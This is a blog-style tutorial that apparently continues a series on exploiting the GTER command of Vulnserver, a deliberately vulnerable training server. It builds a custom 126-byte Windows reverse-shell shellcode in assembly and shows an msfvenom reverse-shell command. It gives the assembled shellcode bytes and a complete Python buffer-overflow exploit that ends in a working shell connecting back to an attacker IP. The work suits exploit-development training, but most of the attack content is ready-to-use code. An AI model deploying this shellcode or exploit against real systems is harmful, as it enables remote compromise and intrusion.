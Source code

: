 :slug: vulnserver-gter-no-egghunter/
:date: 2020-06-12
:category: attacks
:subtitle: Every byte counts
:tags: challenge, ethical hacking, pentesting, security, training, exploit
:image: cover.png
:alt: Photo by Florian Klauer on Unsplash
:description: In the previous post, we successfully exploited the GTER command of Vulnserver using a technique called 'Egghunting.' It was needed to use that approach because we had a reduced space to work. In this post, we will see an alternative way of exploiting this command.
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSCE
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/mk7D-4UCfmg

= GTER Exploit by Reusing Sockets

This is the third article on the series of exploiting `Vulnserver`,
a `VbD` (Vulnerable-by-Design) application in which you can practice Windows
exploit development.

In our link:../vulnserver-gter/[previous post], we successfully exploited
the `GTER` command using a technique called `Egghunting` or `Egghunter`.

Using an egghunter was required because we had a reduced buffer to fit a
shellcode, as generated by `msfvenom` and other tools.

In this post, we will use a manually carved shellcode that will harness
instructions that are already loaded on `Vulnserver`, allowing us to
reduce the final length of our payload.

== Reverse shellcode X-ray

A reverse shellcode is basically a series of Windows `API` function calls
arranged in a delicate order to make a victim machine connect back to an
attacker machine issuing a Windows shell, which is commonly an instance
of `cmd.exe`.

The order of execution of a fully crafted shellcode is the following:

. Call `WSAStartup()` to load the needed `WinSock` DLLs. Use a call to
`LoadLibraryA` underneath.
. Call `socket()` or `WSASocketA()` to bind a new socket handle.
. Call `connect()` or `WSAConnect()` to establish a connection to the
attacker machine.
. Call `CreateProcessA()`, which calls `cmd.exe`
and where the `STDIN`, `STDOUT`, and `STDERR`
are redirected to the previously generated socket handle.

However, if we are exploiting a `TCP/IP` server like `Vulnserver`,
the chances are that the 'WinSock' DLL library is already loaded
and initialized. So we can skip the first point on our custom shellcode.

As a reference, let's create a reverse shellcode using `msfvenom`:

.msfvenom
[source,bash]
----
$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.20 LPORT=4444 EXITFUNC=thread -f raw -o /dev/null -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Saved as: /dev/null
----

This shellcode is 351 bytes long. And, if you remember on our link:../vulnserver-gter/[previous post],
we only had around 144 bytes to play.

The whole idea of reusing instructions is to minimize the resultant shellcode.

To do that, we need to know what functions need to be called, with what
parameters, and translate that into Assembler language to then convert it into
our shellcode, keeping in mind to avoid the null bytes that would lead
to making our shellcode unusable. It sounds harder than it really is.

With that in mind, let's look at the signatures of the needed functions:

=== WSASocketA()

.WSASocketA() signature
[source,cpp]
----
SOCKET WSAAPI WSASocketA(
  int                 af,
  int                 type,
  int                 protocol,
  LPWSAPROTOCOL_INFOA lpProtocolInfo,
  GROUP               g,
  DWORD               dwFlags
);
----

If we are going to write this in Assembler, we must remember
that in the x86 architecture the functions are called in a very specific way:

. The parameters are pushed to the stack on reverse order.
. We call the required function.
. That function will store the returned value on `EAX`.

For example, the structure for calling `WSASocketA` function is as follows:

. Push `dwFlags` parameter to the stack.
. Push `g` parameter to the stack.
. Push `lpProtocolInfo` parameter to the stack.
. Push `protocol` parameter to the stack.
. Push `type` parameter to the stack.
. Push `af` parameter to the stack.
. Call `WSASocketA()`.
. Retrieve the return value of `WSASocketA()` from `EAX` which is the
resulting socket handle.

We also need to know the exact address of the `WSASocketA()` on the system.
Normally, those function addresses won't change much on a specific version
of Windows but will likely change over different updates,
so keep that in mind when creating custom shellcodes.

For retrieving the addresses of functions on the current `OS`,
you can use the link:http://www.vividmachines.com/shellcode/arwin.c[arwin] tool:

.arwin finding WSASocketA()
[source,bash]
----
C:\Documents and Settings\Administrator>arwin ws2_32 WSASocketA
arwin - win32 address resolution program - by steve hanna - v.01
WSASocketA is located at 0x71ab8b6a in ws2_32
----

Ok, with all the required information, we can proceed to write some Assembler.
We need to get a socket handle that can be used by a `TCP` connection.
With that in mind, we can write the call to `WSASocketA()`:

.WSASocketA() in ASM
[source,asm]
----
xor ebx,ebx             ; Zero out EBX
push ebx                ; Push 'dwFlags' parameter
push ebx                ; Push 'g' parameter
push ebx                ; Push 'lpProtocolInfo' parameter
mov bl,0x6              ; Protocol: IPPROTO_TCP=6
push ebx                ; Push 'protocol' parameter
xor ebx,ebx             ; Zero out EBX again
inc ebx                 ; Type: SOCK_STREAM=1
push ebx                ; Push 'type' parameter
inc ebx                 ; Af: AF_INET=2
push ebx                ; Push 'af' parameter
mov ebx,0x71ab8b6a      ; Address of WSASocketA() on WinXPSP3
call ebx                ; call WSASocketA()
xchg eax,esi            ; Save the returned socket handle on ESI
----

Nice, we stored the socket handle in the ESI register that we will
need in the forthcoming functions.

=== connect()

The `connect()` call will create the connection back to the attacker
using the socket handle generated by `WSASocketA` that we stored in ESI:

.connect() signature
[source,cpp]
----
int WSAAPI connect(
  SOCKET         s,
  const sockaddr *name,
  int            namelen
);
----

The `sockaddr` parameter is in turn:

[source,cpp]
----
struct sockaddr {
        ushort  sa_family;
        char    sa_data[14];
};
----

Get the address of `connect()`:

.arwin finding connect()
[source,bash]
----
C:\Documents and Settings\Administrator>arwin ws2_32 connect
arwin - win32 address resolution program - by steve hanna - v.01
connect is located at 0x71ab4a07 in ws2_32
----

Now that we know the structure of the `connect()` function call
and the address of the function, we can write it in Assembler:

.connect() in Assembler
[source,asm]
----
push 0x1400a8c0         ; Push attacker IP: 192.168.0.20. In reverse order:
                        ; hex(20) = 0x14
                        ; hex(0) = 0x00
                        ; hex(168) = 0xa8
                        ; hex(192) = 0xc0
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX
add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure
push byte 0x16             ; Size of sockaddr: sa_family + sa_data = 16
push ebx                ; Push pointer ('name' parameter)
push esi                ; Push saved socket handler ('s' parameter)
mov ebx,0x71ab4a07      ; Address of connect() on WinXPSP3
call ebx                ; Call connect()
----

Note that the attacker `IP` address parameter contains a null byte,
which will stop the injection of the payload. To overcome that,
we can add a static value to that address, subtract it again,
and push the result. This will be the final `connect()` payload:


.connect() in Assembler
[source,asm]
----
mov ebx,0x6955fe15      ; Attacker IP: 192.168.0.20. In reverse order:
                        ; hex(20) = 0x14
                        ; hex(0) = 0x00
                        ; hex(168) = 0xa8
                        ; hex(192) = 0xc0
                        ; 0x1400a8c0 + 55555555 = 6955FE15
sub ebx,0x55555555      ; Substract again 55555555 to get the original IP
push ebx                ; This will push 0x1400a8c0 to the stack without
                        ; injecting null bytes
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX
add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure
push byte 0x16          ; Size of sockaddr: sa_family + sa_data = 16
push ebx                ; Push pointer ('name' parameter)
push esi                ; Push saved socket handler ('s' parameter)
mov ebx,0x71ab4a07      ; Address of connect() on WinXPSP3
call ebx                ; Call connect()
----

=== CreateProcessA()

Now comes the final function `CreateProcessA()`, which is responsible for
creating an instance of the `cmd.exe` command. We also need to point the
`STDIN`, `STDOUT` and `STDERR` descriptors to our socket handle to make the
resultant shell interactive for us.

.CreateProcessA() signature
[source,cpp]
----
BOOL CreateProcessA(
  LPCSTR                lpApplicationName,
  LPSTR                 lpCommandLine,
  LPSECURITY_ATTRIBUTES lpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL                  bInheritHandles,
  DWORD                 dwCreationFlags,
  LPVOID                lpEnvironment,
  LPCSTR                lpCurrentDirectory,
  LPSTARTUPINFOA        lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation
);
----

We need to fill the `_STARTUPINFOA` structure. Luckily for us, most
of the parameters are NULL:

[source,cpp]
----
typedef struct _STARTUPINFOA {
  DWORD  cb;
  LPSTR  lpReserved;
  LPSTR  lpDesktop;
  LPSTR  lpTitle;
  DWORD  dwX;
  DWORD  dwY;
  DWORD  dwXSize;
  DWORD  dwYSize;
  DWORD  dwXCountChars;
  DWORD  dwYCountChars;
  DWORD  dwFillAttribute;
  DWORD  dwFlags;
  WORD   wShowWindow;
  WORD   cbReserved2;
  LPBYTE lpReserved2;
  HANDLE hStdInput;
  HANDLE hStdOutput;
  HANDLE hStdError;
} STARTUPINFOA, *LPSTARTUPINFOA;
----

And the `_PROCESS_INFORMATION` is even easier as all the fields can be NULL:

[source,cpp]
----
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;
  HANDLE hThread;
  DWORD  dwProcessId;
  DWORD  dwThreadId;
} PROCESS_INFORMATION, *PPROCESS_INFORMATION, *LPPROCESS_INFORMATION;
----

Get the address of `CreateProcessA()`:

.arwin finding CreateProcessA()
[source,bash]
----
C:\Documents and Settings\Administrator>arwin kernel32 CreateProcessA
arwin - win32 address resolution program - by steve hanna - v.01
CreateProcessA is located at 0x7c80236b in kernel32
----

In Assembler, the call to `CreateProcessA()` will look like this:

.CreateProcessA() in Assembler
[source,asm]
----
mov ebx,0x646d6341      ; Move 'cmda' to EBX. The trailing 'a' is to avoid
                        ; injecting null bytes.
shr ebx,0x8             ; Make EBX = 'cmd\x00'
push ebx                ; Push application name
mov ecx,esp             ; Make ECX a pointer to the 'cmd' command
                        ; ('lpCommandLine' parameter)

; Now fill the `_STARTUPINFOA` structure
xor edx,edx             ; Zero out EBX
push esi                ; hStdError = our socket handler
push esi                ; hStdOutput = our socket handler
push esi                ; hStdInput = our socket handler
push edx                ; cbReserved2 = NULL
push edx                ; wShowWindow = NULL
xor eax, eax            ; Zero out EAX
mov ax,0x0101           ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
push eax                ; Push dwFlags
push edx                ; dwFillAttribute = NULL
push edx                ; dwYCountChars = NULL
push edx                ; dwXCountChars = NULL
push edx                ; dwYSize = NULL
push edx                ; dwXSize = NULL
push edx                ; dwY = NULL
push edx                ; dwX = NULL
push edx                ; lpTitle = NULL
push edx                ; lpDesktop = NULL
push edx                ; lpReserved = NULL
add dl,44               ; cb = 44
push edx                ; Push _STARTUPINFOA on stack
mov eax,esp       	    ; Make EAX a pointer to _STARTUPINFOA
xor edx,edx             ; Zero out EDX again

; Fill PROCESS_INFORMATION struct
push edx                ; lpProcessInformation
push edx                ; lpProcessInformation + 4
push edx                ; lpProcessInformation + 8
push edx                ; lpProcessInformation + 12


; Now fill out the `CreateProcessA` parameters
push esp                ; lpProcessInformation
push eax                ; lpStartupInfo
xor ebx,ebx             ; Zero out EBX to fill other parameters
push ebx                ; lpCurrentDirectory
push ebx                ; lpEnvironment
push ebx                ; dwCreationFlags
inc ebx                 ; bInheritHandles = True
push ebx                ; Push bInheritHandles
dec ebx                 ; Make EBX zero again
push ebx                ; lpThreadAttributes
push ebx                ; lpProcessAttributes
push ecx                ; lpCommandLine = Pointer to 'cmd\x00'
push ebx                ; lpApplicationName
mov ebx,0x7c80236b      ; Address of CreateProcessA()
call ebx                ; Call CreateProcessA() on WinXPSP3
----

== Putting it all together

Our final shellcode will be this:

.shellcode.asm
[source,asm]
----
; WSASocketA()
xor ebx,ebx             ; Zero out EBX
push ebx                ; Push 'dwFlags' parameter
push ebx                ; Push 'g' parameter
push ebx                ; Push 'lpProtocolInfo' parameter
mov bl,0x6              ; Protocol: IPPROTO_TCP=6
push ebx                ; Push 'protocol' parameter
xor ebx,ebx             ; Zero out EBX again
inc ebx                 ; Type: SOCK_STREAM=1
push ebx                ; Push 'type' parameter
inc ebx                 ; Af: AF_INET=2
push ebx                ; Push 'af' parameter
mov ebx,0x71ab8b6a      ; Address of WSASocketA() on WinXPSP3
call ebx                ; Call WSASocketA()
xchg eax,esi            ; Save the returned socket handle on ESI

; connect()
mov ebx,0x6955fe15      ; Attacker IP: 192.168.0.20. In reverse order:
                        ; hex(20) = 0x14
                        ; hex(0) = 0x00
                        ; hex(168) = 0xa8
                        ; hex(192) = 0xc0
                        ; 0x1400a8c0 + 55555555 = 6955FE15
sub ebx,0x55555555      ; Substract again 55555555 to get the original IP
push ebx                ; This will push 0x1400a8c0 to the stack without
                        ; injecting null bytes
push word 0x5c11        ; Push port: hex(4444) = 0x115c
xor ebx,ebx             ; Zero out EBX
add bl,0x2              ; sa_family: AF_INET = 2
push word bx            ; Push sa_family parameter
mov ebx,esp             ; EBX now has the pointer to sockaddr structure
push byte 0x16          ; Size of sockaddr: sa_family + sa_data = 16
push ebx                ; Push pointer ('name' parameter)
push esi                ; Push saved socket handler ('s' parameter)
mov ebx,0x71ab4a07      ; Address of connect() on WinXPSP3
call ebx                ; Call connect()

; CreateProcessA()

mov ebx,0x646d6341      ; Move 'cmda' to EBX. The trailing 'a' is to avoid
                        ; injecting null bytes.
shr ebx,0x8             ; Make EBX = 'cmd\x00'
push ebx                ; Push application name
mov ecx,esp             ; Make ECX a pointer to the 'cmd' command
                        ; ('lpCommandLine' parameter)

; Now fill the `_STARTUPINFOA` structure
xor edx,edx             ; Zero out EBX
push esi                ; hStdError = our socket handler
push esi                ; hStdOutput = our socket handler
push esi                ; hStdInput = our socket handler
push edx                ; cbReserved2 = NULL
push edx                ; wShowWindow = NULL
xor eax, eax            ; Zero out EAX
mov ax,0x0101           ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
push eax                ; Push dwFlags
push edx                ; dwFillAttribute = NULL
push edx                ; dwYCountChars = NULL
push edx                ; dwXCountChars = NULL
push edx                ; dwYSize = NULL
push edx                ; dwXSize = NULL
push edx                ; dwY = NULL
push edx                ; dwX = NULL
push edx                ; lpTitle = NULL
push edx                ; lpDesktop = NULL
push edx                ; lpReserved = NULL
add dl,44               ; cb = 44
push edx                ; Push _STARTUPINFOA on stack
mov eax,esp       	    ; Make EAX a pointer to _STARTUPINFOA
xor edx,edx             ; Zero out EDX again

; Fill PROCESS_INFORMATION struct
push edx                ; lpProcessInformation
push edx                ; lpProcessInformation + 4
push edx                ; lpProcessInformation + 8
push edx                ; lpProcessInformation + 12


; Now fill out the `CreateProcessA` parameters
push esp                ; lpProcessInformation
push eax                ; lpStartupInfo
xor ebx,ebx             ; Zero out EBX to fill other parameters
push ebx                ; lpCurrentDirectory
push ebx                ; lpEnvironment
push ebx                ; dwCreationFlags
inc ebx                 ; bInheritHandles = True
push ebx                ; Push bInheritHandles
dec ebx                 ; Make EBX zero again
push ebx                ; lpThreadAttributes
push ebx                ; lpProcessAttributes
push ecx                ; lpCommandLine = Pointer to 'cmd\x00'
push ebx                ; lpApplicationName
mov ebx,0x7c80236b      ; Call CreateProcessA()
call ebx
----

We can compile this using `nasm`:

.nasm compilation
[source,bash]
----
$ nasm -f elf32 -o shellcode.o shellcode.asm
----

And obtain the resulting shellcode with:

[source,bash]
----
$ for i in $(objdump -d shellcode.o -M intel |grep "^ " |cut -f2); do echo -n '\x'$i; done; echo
\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43\x53\xbb\x6a\x8b\xab\x71
\xff\xd3\x96\xbb\x15\xfe\x55\x69\x81\xeb\x55\x55\x55\x55\x53\x66\x68\x11\x5c
\x31\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x16\x53\x56\xbb\x07\x4a\xab\x71\xff
\xd3\xbb\x41\x63\x6d\x64\xc1\xeb\x08\x53\x89\xe1\x31\xd2\x56\x56\x56\x52\x52
\x31\xc0\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52\x52\x52\x80\xc2
\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53
\x4b\x53\x53\x51\x53\xbb\x6b\x23\x80\x7c\xff\xd3
----

As you can see, the resulting shellcode is only 126 bytes long and will
nicely fit on our buffer without the need to use egghunters.

== Update our exploit

Now that we have our manually created shellcode, we can update our
link:../vulnserver-gter/[previous exploit].

We will remove the egghunter and the previous shellcode and will include our
custom shellcode. Let's see how it looks now:

.exploit-socketreuse.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

CUSTOM_SHELL = (
    b'\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43' +
    b'\x53\xbb\x6a\x8b\xab\x71\xff\xd3\x96\xbb\x15\xfe\x55' +
    b'\x69\x81\xeb\x55\x55\x55\x55\x53\x66\x68\x11\x5c\x31' +
    b'\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x16\x53\x56\xbb' +
    b'\x07\x4a\xab\x71\xff\xd3\xbb\x41\x63\x6d\x64\xc1\xeb' +
    b'\x08\x53\x89\xe1\x31\xd2\x56\x56\x56\x52\x52\x31\xc0' +
    b'\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52' +
    b'\x52\x52\x80\xc2\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52' +
    b'\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53\x4b\x53\x53' +
    b'\x51\x53\xbb\x6b\x23\x80\x7c\xff\xd3'
)

PAYLOAD = (
    b'GTER /.:/' +
    CUSTOM_SHELL +
    b'A' * (147 - len(CUSTOM_SHELL)) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

It looks simpler! Now, run it to see what happens:

image::take1.gif[Take 1]

Uhmmm, we got the reverse connection but no shell!

Let's see what is going on:

image::take2.gif[Take 1]

As we can see, several things have happened:

. Our buffer was correctly delivered.
. The `JMP ESP` instruction was successfully triggered.
. The jump backward occurred.
. And we landed at the start of our custom shellcode.

However, if you look carefully at this image:

image::esp1.png[ESP]

We can see that the `ESP` register is only 24 bytes below the end of our
custom shellcode. That means that with every `PUSH` performed on our
custom shellcode, that pointer will get closer to it
and start *overwriting* it. That's not good news.

This graph illustrates the issue:

image::stackgrowth.png[ESP]

As the execution flows towards a higher memory address,
the stack grows backward and will eventually overwrite our shellcode.

However, if you look at the image again, you can see that the `EAX` register
points to the `GTER /.:/` string, which is above our shellcode.

All that's left to do is align the stack to point to that location,
and it's done easily with two instructions:

.Align stack
[source,asm]
----
PUSH EAX
POP ESP
----

The first instruction will push the current value of `EAX` to the stack,
and the second will pop back that value to the `ESP` register, moving the
stack pointer above our shellcode, protecting it from being overwritten.

We can use `nasm_shell.rb` from Metasploit
to get the opcodes of those instructions:

.nasm_shell
[source,bash]
----
$ cd /opt/metasploit-framework/embedded/framework/tools/exploit
$ ./nasm_shell.rb
nasm > push eax
00000000  50                push eax
nasm > pop esp
00000000  5C                pop esp
----

Ok, now we can add those instructions to our exploit and see what happens:

.exploit-socketreuse.py
[source,python]
----
import socket
import struct

HOST = '192.168.0.29'
PORT = 9999

CUSTOM_SHELL = (
    b'\x31\xdb\x53\x53\x53\xb3\x06\x53\x31\xdb\x43\x53\x43' +
    b'\x53\xbb\x6a\x8b\xab\x71\xff\xd3\x96\xbb\x15\xfe\x55' +
    b'\x69\x81\xeb\x55\x55\x55\x55\x53\x66\x68\x11\x5c\x31' +
    b'\xdb\x80\xc3\x02\x66\x53\x89\xe3\x6a\x16\x53\x56\xbb' +
    b'\x07\x4a\xab\x71\xff\xd3\xbb\x41\x63\x6d\x64\xc1\xeb' +
    b'\x08\x53\x89\xe1\x31\xd2\x56\x56\x56\x52\x52\x31\xc0' +
    b'\x66\xb8\x01\x01\x50\x52\x52\x52\x52\x52\x52\x52\x52' +
    b'\x52\x52\x80\xc2\x2c\x52\x89\xe0\x31\xd2\x52\x52\x52' +
    b'\x52\x54\x50\x31\xdb\x53\x53\x53\x43\x53\x4b\x53\x53' +
    b'\x51\x53\xbb\x6b\x23\x80\x7c\xff\xd3'
)

PAYLOAD = (
    b'GTER /.:/' +
    # Align stack to avoid overwrite our shellcode
    b'\x50' +           # PUSH EAX
    b'\x5c' +           # POP ESP
    CUSTOM_SHELL +
    b'A' * (147 - 2 - len(CUSTOM_SHELL)) +
    # 625011C7 | FFE4 | jmp esp
    struct.pack('<L', 0x625011C7) +
    # JMP to the start of our buffer
    b'\xe9\x64\xff\xff\xff' +
    b'C' * (400 - 147 - 4 - 5)
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.recv(128)
    print('Sending payload...')
    fd.sendall(PAYLOAD)
    print('Done.')
----

And execute the exploit again:

image::success.gif[Shell]

Whooo! We got our shell again!

== Conclusion

This time I wanted to show that there are always ways to overcome
harsh exploitation environments, just by trying harder.


== References

. link:https://github.com/rapid7/metasploit-framework/blob/master/external/source/shellcode/windows/x86/src/block/block_shell.asm[Metasploit block_shell]
. link:https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-wsasocketa[WSASocketA function]
. link:https://docs.microsoft.com/en-us/windows/win32/api/winsock2/nf-winsock2-connect[connect function]
. link:https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa[CreateProccessA function]
